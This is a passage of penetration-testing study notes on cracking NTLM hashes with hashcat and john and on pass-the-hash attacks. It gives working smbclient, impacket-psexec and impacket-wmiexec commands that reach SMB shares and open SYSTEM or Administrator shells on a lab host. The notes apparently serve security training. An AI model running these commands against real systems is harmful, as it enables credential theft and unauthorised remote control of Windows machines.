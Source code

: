 ```bash
hashcat --help | grep -i "ntlm"

hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

### Passing NTLM

- For **SMB enumeration and management**, use **smbclient** or **CrackMapExec**.

- Use **NTLM hashes** to connect to target systems with **SMB**, and via other protocols like **RDP** and **WinRM**, if the user has the required rights.

Connect to the SMB share **secrets**

```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```

Since Windows Vista, all Windows versions have **UAC remote restrictions** enabled by default. This prevents software or commands from running with administrative rights on remote systems. This effectively mitigates this attack vector for users in the **local administrator group** aside from the local Administrator account.

If we don't use the local **Administrator** user in **pass-the-hash**, the target machine also needs to be configured in a certain way to obtain successful **code execution**.

- For **command execution**, use the scripts from the **impacket** library like `psexec.py` and `wmiexec.py`.

- `psexec.py` script from the **impacket** library is very similar to the original **Sysinternals PsExec** command. It searches for a writable share and uploads an executable file to it. Then it registers the executable as a Windows service and starts it.

Obtain a shell as the **SYSTEM** user

```bash
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

Obtain a shell as the **Administrator** user

```bash
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

### Cracking Net-NTLMv2

**Net-NTLMv2** network authentication protocol is responsible for managing the authentication process for Windows clients and servers over a network.

To gain access to an SMB share on a Windows server from a Windows client via Net-NTLMv2:
